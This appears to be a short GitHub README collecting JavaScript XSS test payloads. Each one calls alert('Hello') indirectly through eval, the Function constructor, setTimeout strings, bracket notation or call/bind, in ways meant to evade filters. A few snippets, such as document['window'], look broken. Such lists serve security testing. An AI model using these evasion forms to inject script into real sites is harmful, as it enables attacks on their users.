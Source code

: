 # XSS_Payloads2

XSS payloads

## Array Notation  
```js
window['alert']('Hello');```


## Chained Array Notation  
```js
this['window']['alert']('Hello');```


## Indirect Reference Using Call/Apply  
```js
(0, eval)('alert("Hello")');```


## Calling via Function Constructor  
```js
(new Function('alert("Hello")'))();```


## SetTimeout or SetInterval  
```js
setTimeout('alert("Hello")', 0);```


## Indirect Reference with call  
```js
window.alert.call(this, 'Hello');```


## Using bind  
```js
const alertBind = alert.bind(window);
alertBind('Hello');```


## anon functions  
```js
(() => alert('Hello'))();```


## Self-Invoking Function with alert  
```js
(function(){ alert('Hello'); })();```


## Function call  
```js
Function.prototype.call.call(alert, window, 'Hello');```


## Global this  
```js
(this || window).alert('Hello');```


## chaining doc and window  
```js
document['window']['alert']('Hello');```


## Reclusive indirect function calling  
```js
(((f) => f(f))((f) => alert('Hello')))();```

